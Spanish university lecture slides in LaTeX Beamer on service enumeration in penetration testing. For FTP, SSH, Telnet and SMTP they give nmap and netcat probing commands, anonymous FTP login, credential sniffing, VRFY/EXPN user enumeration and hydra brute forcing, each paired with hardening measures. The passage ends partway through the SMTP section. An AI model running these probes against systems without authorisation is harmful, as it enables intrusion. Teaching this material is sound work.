\documentclass[aspectratio=169,11pt]{beamer}
\usepackage{beamertemplate}
\usepackage{graphicx}
\usepackage{booktabs}
\usepackage{url}
\usepackage{textcomp}
\usepackage{eurosym}
\usepackage[normalem]{ulem}
\usepackage{ragged2e}
\usepackage{etoolbox}
\usepackage{tikz}
\usetikzlibrary{positioning}
\usepackage{listings}
\apptocmd{\itemize}{\justifying}{}{}
\AtBeginEnvironment{frame}{\justifying}

% Formato uniforme para comandos de herramientas
\newcommand{\cmd}[1]{\texttt{#1}}

% Repite el índice al empezar cada sección, resaltando la que comienza
\setbeamertemplate{section in toc shaded}[default][30]
\AtBeginSection[]{%
  \begin{frame}{Índice}
  \footnotesize
  \tableofcontents[currentsection]
  \end{frame}
}

\title[SSI -- Tema 2.3]{Enumeración}
\subtitle{Seguridad en Sistemas Informáticos --- Tema 2.3}
\author{José Luis Martínez}
\institute{Universidad de Castilla-La Mancha}
\date{Curso 2026/27}

\begin{document}

\begin{frame}[plain]\titlepage\end{frame}


\section{Introducción}

\begin{frame}{Introducción}
\begin{center}
\includegraphics[width=\textwidth,height=0.82\textheight,keepaspectratio]{img/taxonomia-ataque.pdf}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{Introducción}
\small
Enumeración
  \begin{itemize}
  \item Tras la fase de footprinting y escaneo (fingerprinting) se puede seguir recabando información mediante técnicas de enumeración.
  \item La enumeración también se engloba dentro de la fase de recopilación de información aunque algunos autores a las tres fases de la recopilación de información la llaman íntegramente como enumeración
  \item En la fase en la que estamos, ya tenemos identificados: hosts/dominios activos, para cada host/dominio, tenemos identificados puertos abiertos y servicios corriendo detrás de esos puertos; además tenemos identificado las versiones del software que hay corriendo detrás de dichos servicios/puertos y, además sabemos también el sistema operativo de la máquina. 
  \item La enumeración consiste en interactuar con los servicios descubiertos en fases anteriores para seguir recabando información ya sea debido a una mala configuración de éstos o su propio funcionamiento interno.
  \end{itemize}
\end{frame}

\begin{frame}{Introducción}
\footnotesize
A continuación se van a mostrar los servicios y protocolos que se analizan en este tema, ordenados por el puerto al que suelen estar asociados, y cómo sería posible interactuar con ellos para obtener información:
\vspace{1ex}

\scriptsize
\setlength{\itemsep}{0pt}
\begin{columns}[t]
\begin{column}{0.48\textwidth}
\begin{itemize}\setlength{\itemsep}{0pt}
  \item 21/TCP --- FTP
  \item 22/TCP --- SSH
  \item 23/TCP --- Telnet
  \item 25/TCP --- SMTP
  \item 53/TCP-UDP --- DNS
  \item 79/TCP --- Finger
  \item 80 y 443/TCP --- HTTP / HTTPS (y CMS)
  \item 110/995 y 143/993 --- POP3 / IMAP
  \item 111/TCP --- RPC (rpcbind), rusers
  \item 123/UDP --- NTP
  \item 137-139 y 445/TCP --- SMB / NetBIOS
  \item 161-162/UDP --- SNMP
  \item 389/636 TCP --- LDAP
  \item 443/TCP --- Certificados / SSL-TLS
\end{itemize}
\end{column}
\begin{column}{0.48\textwidth}
\begin{itemize}\setlength{\itemsep}{0pt}
  \item 500 y 4500/UDP --- VPN IPsec (IKE)
  \item 513/UDP-TCP --- rwho / rlogin
  \item 873/TCP --- rsync
  \item 1433/TCP --- MSSQL
  \item 2049/TCP --- NFS
  \item 3306/TCP --- MySQL
  \item 3389/TCP --- RDP
  \item 5060/UDP --- VoIP (SIP)
  \item 5432/TCP --- PostgreSQL
  \item 5900/TCP --- VNC
  \item 5985-5986/TCP --- WinRM
  \item 6379/TCP --- Redis
  \item 8080/TCP --- Jenkins
  \item 27017/TCP --- MongoDB
\end{itemize}
\end{column}
\end{columns}
\end{frame}


\section{Análisis de Servicios}

% ====================================================================
% 21/TCP --- FTP
% ====================================================================

\begin{frame}[allowframebreaks]{FTP (File Transfer Protocol)}
\small
  \begin{itemize}
  \item Funcionalidad: Transferencia de ficheros.
  \item Puertos: 21/TCP
  \item Vulnerabilidad: Usuario `Anonymous' habilitado y Sniffing de credenciales.
  \item Explotación:
    \begin{itemize}
    \item \cmd{ftp [IP]}
    \item Usuario: anonymous $\cdot$ Pass: [vacío]
    \end{itemize}
  \item Credenciales viaja en TEXTO CLARO, se envían sin cifrar.
    \begin{itemize}
    \item \cmd{ftp <IP> \# login} (anonymous o con credenciales)
    \item Un atacante en la red captura el tráfico con \href{https://www.wireshark.org/}{Wireshark} $\rightarrow$ Follow TCP Stream.
    \item Se leen USER y PASS en claro (aquí: USER raj / PASS 123).
    \end{itemize}
  \end{itemize}
\begin{columns}[c]
  \begin{column}{0.44\textwidth}
    \begin{center}
\includegraphics[width=\textwidth,height=0.8\textheight,keepaspectratio]{img/sl023_1.png}
    \end{center}
  \end{column}
  \begin{column}{0.54\textwidth}
    \begin{center}
\includegraphics[width=\textwidth,height=0.8\textheight,keepaspectratio]{img/sl019_1.png}
    \end{center}
  \end{column}
\end{columns}
\end{frame}

\begin{frame}[allowframebreaks]{FTP}
\small
  \begin{itemize}
  \item Solución: FTP sobre SSL/TLS. Generar un certificado y forzar el cifrado en vsftpd.
  \item \cmd{openssl req -x509 -nodes -days 365 -newkey rsa:2048\\ -keyout /etc/ssl/certificates/vsftpd.pem -out \dots{}vsftpd.pem}
  \item En vsftpd.conf:
    \begin{itemize}
  \item ssl\_enable=YES force\_local\_logins\_ssl=YES
  \item ssl\_tlsv1=YES ssl\_ciphers=HIGH
    \end{itemize}

  \item El sniffer ahora solo ve ciphertext.
  \item \href{https://whitehatnaveen.blogspot.com/2019/10/oscp-enumeration-ftp.html}{Lectura}
  \end{itemize}
\begin{center}
\includegraphics[width=0.78\textwidth,height=0.6\textheight,keepaspectratio]{img/sl020_1.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{FTP}
\small
  \begin{itemize}
  \item Ocultar la versión (banner) para evitar fingerprinting
  \item vsftpd.conf: ftpd\_banner $\rightarrow$ nmap -sV ya no revela la versión
  \item Cambiar el puerto: connect\_from\_port\_20=NO listen\_port=5000
  \item Anti-fuerza-bruta: \href{https://github.com/fail2ban/fail2ban}{Fail2ban}: \cmd{sudo fail2ban-client status vsftpd}
  \item Tras N intentos fallidos banea la IP $\rightarrow$ Ataques fuerza bruta / diccionario dejan de funcionar.
  \end{itemize}
\begin{center}
\includegraphics[width=0.68\textwidth,height=0.45\textheight,keepaspectratio]{img/sl021_1.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{FTP}
\small
  \begin{itemize}
  \item Permitir solo IPs de confianza (TCP Wrappers):
    \begin{itemize}
  \item /etc/hosts.allow: vsftpd: 192.168.1.109
  \item /etc/hosts.deny: vsftpd: all
  \end{itemize}
  \item Activarlo en vsftpd: vsftpd.conf: tcp\_wrappers=YES
  \item Solo las IPs permitidas conectan; el resto recibe connection failed.
  \end{itemize}
\begin{center}
\includegraphics[width=0.78\textwidth,height=0.6\textheight,keepaspectratio]{img/sl022_1.png}
\end{center}
\end{frame}

\begin{frame}{FTP}
\begin{columns}[c]
  \begin{column}{0.48\textwidth}
    \begin{center}
\includegraphics[width=\textwidth,height=0.50\textheight,keepaspectratio]{img/sl024_1.png}
    \end{center}
  \end{column}
  \begin{column}{0.48\textwidth}
    \begin{center}
\includegraphics[width=\textwidth,height=0.50\textheight,keepaspectratio]{img/sl024_2.png}
    \end{center}
  \end{column}
\end{columns}
\end{frame}

\begin{frame}[allowframebreaks]{FTP}
\begin{center}
\includegraphics[width=0.62\textwidth,height=0.42\textheight,keepaspectratio]{img/sl025_1.png}
\end{center}
\begin{center}
\includegraphics[width=0.62\textwidth,height=0.42\textheight,keepaspectratio]{img/sl025_2.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{Ejercicio}
\small
\begin{center}
\includegraphics[width=0.78\textwidth,height=0.6\textheight,keepaspectratio]{img/sl026_1.jpg}
\end{center}
  \begin{itemize}
  \item Laboratorio Red Team VS Blue Team
    \begin{itemize}
    \item Realiza un ejercicio de securización de un servidor ftp como el que se recoge \href{https://www.hackingarticles.in/ftp-penetration-testing-on-ubuntu-port-21/}{aquí}
    \end{itemize}
  \end{itemize}

\end{frame}

% ====================================================================
% 22/TCP --- SSH
% ====================================================================

\begin{frame}[allowframebreaks]{SSH}
\small
  \begin{itemize}
  \item Funcionalidad: Acceso remoto
  \item Puertos: 22/TCP
  \item Vulnerabilidad: En SSH, la enumeración consiste en recopilar información sobre el servicio antes de intentar autenticarse: versión, implementación, algoritmos criptográficos, métodos de autenticación y, cuando la configuración lo permite, información sobre usuarios
  \item Explotación:
      \begin{itemize}
      \item \cmd{nmap -sV -p 22 TARGET}
      \item \cmd{nmap -p 22 -{}-script ssh2-enum-algos TARGET} (Esto permite evaluar si existen algoritmos obsoletos o configuraciones criptográficas débiles)
      \item \cmd{nc TARGET 22} (El banner proporciona información de fingerprinting)
      \item \cmd{nmap -p 22 -{}-script ssh-auth-methods -{}-script-args="ssh.user=test" TARGET} (Esto permite saber cómo está configurado el acceso, sin necesidad de conocer una contraseña.)
      \item \cmd{nmap -p 22 -{}-script ssh-hostkey TARGET} (Si la misma host key aparece en varios servidores, puede ser un indicio de una mala configuración, por ejemplo, una imagen de máquina virtual clonada sin regenerar las claves SSH o que el mismo usuario y clave se autentican en varias máquinas)
      \item \cmd{nmap -p 22 -{}-script vuln TARGET} (identificar posibles vulnerabilidades)
      \end{itemize}
  \item Herramientas:
    \begin{itemize}
    \item \href{https://github.com/nccgroup/ssh_user_enum}{ssh\_user\_enum}. 
    \item \href{https://github.com/g0tmi1k/debian-ssh}{debian-ssh}
    \item ssh\_enumusers de metasploit (se verá más adelante en profundidad)
    \end{itemize}
  \item \href{https://www.linkedin.com/feed/update/urn:li:activity:7050015800174288896/}{Lectura}
   \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{SSH}
\begin{center}
\includegraphics[width=0.62\textwidth,height=0.42\textheight,keepaspectratio]{img/sl067_1.png}
\end{center}
\begin{center}
\includegraphics[width=0.62\textwidth,height=0.42\textheight,keepaspectratio]{img/sl067_2.png}
\end{center}
\begin{center}
\includegraphics[width=0.95\textwidth,height=0.8\textheight,keepaspectratio]{img/sl067_3.png}
\end{center}
\end{frame}

% ====================================================================
% 23/TCP --- Telnet
% ====================================================================

\begin{frame}[allowframebreaks]{Telnet}
\small
  \begin{itemize}
  \item Funcionalidad: Protocolo de acceso remoto que permite abrir una sesión interactiva con otro equipo. A diferencia de SSH, transmite la comunicación sin cifrar
  \item Puertos: 23/TCP
  \item Vulnerabilidad: Acceso a información sensible
  \item Explotación:
    \begin{itemize}  
      \item \cmd{nmap -{}-script telnet-encryption,telnet-ntlm-info -p23 <IP>}
      \item \cmd{nc <IP> 23 \# banner grabbing}
      \item \cmd{nmap -p 23 -{}-script telnet-encryption TARGET}
      
      \item Credenciales en TEXTO CLARO (sniffing con Wireshark).
      \item Fuerza bruta con \href{https://github.com/vanhauser-thc/thc-hydra}{hydra}; credenciales por defecto (muy común en IoT/routers).
    \end{itemize}
  \item Hardening: DESHABILITAR Telnet $\rightarrow$ usar SSH.
  \item Pentesting con \href{https://www.hackingarticles.in/penetration-testing-telnet-port-23/}{telnet}

  \end{itemize}
\end{frame}

% ====================================================================
% 25/TCP --- SMTP
% ====================================================================

\begin{frame}[allowframebreaks]{SMTP (Simple Mail Transfer Protocol)}
\small
  \begin{itemize}
  \item Funcionalidad: Envío de correos electrónicos.
  \item Puertos: 25/TCP
  \item Vulnerabilidad: Enumeración de usuarios.
  \item \href{https://www.ibm.com/docs/en/zos/2.1.0?topic=sc-vrfy-command-verify-whether-mailbox-exists-local-host}{Explotación}:
    \begin{itemize}
    \item Comando: VRFY [USUARIO]
      \begin{itemize}
      \item Validar usuarios
      \end{itemize}
    \item Comando: EXPN [USUARIO]
      \begin{itemize}
      \item Dirección de correo
      \end{itemize}
    \item Comando: RCPT TO [USUARIO]
      \begin{itemize}
      \item Devuelve el recipiente del mensaje
      \end{itemize}
    \item Herramienta \href{https://github.com/pentestmonkey/smtp-user-enum}{smtp-user-enum}
    \item \cmd{nmap -p25 -{}-script smtp-commands IP}
    \end{itemize}
  \item \href{https://fwhibbit.es/auditando-un-servidor-smtp}{Ejemplo}
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{SMTP (Simple Mail Transfer Protocol)}
